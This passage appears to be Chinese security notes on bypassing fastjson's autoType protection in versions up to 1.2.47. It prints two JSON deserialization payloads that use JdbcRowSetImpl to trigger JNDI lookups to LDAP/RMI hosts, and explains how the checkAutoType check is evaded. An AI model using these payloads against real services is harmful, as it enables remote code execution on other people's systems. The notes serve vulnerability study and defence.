 **Bypass**

**前提：需要开启 autotype**

构造如下 payload，具体为啥这么构造没有细跟，反正跟`[`有关

```json
{"@type":"[com.sun.rowset.JdbcRowSetImpl”[{,"dataSourceName":"ldap://localhost:9999/a","autoCommit":true}"
```

首先是`[com.sun.rowset.JdbcRowSetImpl`，通过这个方式可以过 checkAutotype 检测。

其次是`[{,"dataSourceName`，这里的`[{`主要目的是通过 fastjson 的自动检测，实际上就是对 token 进行控制，这里如果是`[`的话就会让 token 变为 14 从而通过之后的检测。

https://blog.csdn.net/qq_36869808/article/details/123201615

### fastjson<=1.2.47

44 版本针对 43 版本的绕过作了处理，[ 开头或者 L 开头 ; 结尾都会抛出异常

**Bypass**

**前提：1.2.25-1.2.32 版本：未开启 AutoTypeSupport 时能成功利用，开启 AutoTypeSupport 反而不能成功触发；1.2.33-1.2.47 版本：无论是否开启 AutoTypeSupport，都能成功利用；**

攻击 json 如下：

```json
{
  "a": {
    "@type": "java.lang.Class", //放入内存
    "val": "com.sun.rowset.JdbcRowSetImpl"
  },
  "b": {
    "@type": "com.sun.rowset.JdbcRowSetImpl", //触发payload弹计算器
    "dataSourceName": "rmi://ip/exp",
    "autoCommit": true
  }
}
```

在 DefaultJSONParser 类中。传进来的@type 的值要进入一个 checkAutoType()方法的判断：

![image-20230609105231200](img/image-20230609105231200.png)
